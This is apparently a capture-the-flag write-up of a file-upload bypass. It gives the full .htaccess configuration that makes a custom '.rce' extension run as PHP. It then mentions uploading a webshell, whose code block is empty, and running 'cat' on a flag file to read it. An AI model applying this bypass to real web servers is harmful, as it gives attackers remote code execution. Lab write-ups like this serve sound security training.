



Here we can't upload `.php` files. However, we can upload `.htaccess` and by this way do some nasty staff.

This will be our `.htaccess` file:
```
# Enable indexing
Options +Indexes 

# Treat .rce as .php
AddType application/x-httpd-php .rce

# Enable php execution
php_flag engine on
```


Then, we'll upload our `webshell.rce` file, which is
```php

```



And now, cat the password.
This will be our payload: `cat /var/www/html/private/flag.txt`



**Flag:** ***`ht@cc3ss2RCE4th%w1n`***
